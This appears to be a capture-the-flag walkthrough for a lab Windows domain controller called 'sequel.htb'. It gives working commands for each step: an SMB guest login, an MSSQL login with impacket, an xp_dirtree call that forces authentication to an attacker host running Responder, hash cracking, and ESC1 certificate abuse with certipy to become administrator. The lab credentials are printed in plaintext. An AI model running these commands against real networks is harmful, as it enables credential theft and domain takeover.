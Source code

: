 Started with a nmap scan
```
53 DNS
88 Kerberos
135
139
389 LDAP
445
464
593
636 LDAP
1433 SQL Server 
3268 LDAP
3269 LDAP
5985
```
Domain `sequel.htb` Hostname `DC`
Looking at the SMB and we have guest access and we can READ a share called `Public` and in this share there is a PDF file called `SQL Server Pricedures` in this file there is some creds `PublicUser:GuestUserCantWrite1` and we can auth to the mssql with local auth so we can use impacket to connect to the SQL service `impacket-mssqlclient sequel.htb/PublicUSer:GuestUSerCantWrite1@10.10.11.202` looking around did not find much we can see if it can read a SMB share from are host and it can so we need to run responder and then run this command `EXEC xp_dirtree '\\10.10.16.3\shares', 1, 1`  and we get a hash for the `sql_svc` user we can try and crack this  and it worked `sql_svc:REGGIE1234ronnie` testing this login we can winrm into the host ran winpeas and it did not find much so doing some manuel enumeration we can find error logs from the sql service in `C:\Sqlservice\Logs\errorlog.bak` and the user `ryan.cooper` entered his password and now we have his creds `ryan.cooper:NuclearMosquito3` now since we know there not much on the host since we ran winpeas all ready gonna run `certipy-ad` and see if there is anything `certipy-ad find -u ryan.cooper -p 'NuclearMosquito3' -target sequel.htb -text -stdout -vulnerable` and we got `ESC1` vulnerability so now we need to get the pfx file `certipy-ad req -u ryan.cooper -p 'NuclearMosquito3' -ca sequel-DC-CA -dc-ip 10.10.11.202 -template USerAuthentication -upn administrator@sequel.htb -dns 10.10.11.202` and now we need to set are clock to match the machine `sudo ntpdate -u 10.10.11.202` and now we can auth with the ticket `certipy-ad auth -pfx 'administrator_10.pfx' -dc-ip 10.10.11.202` and now we are admin 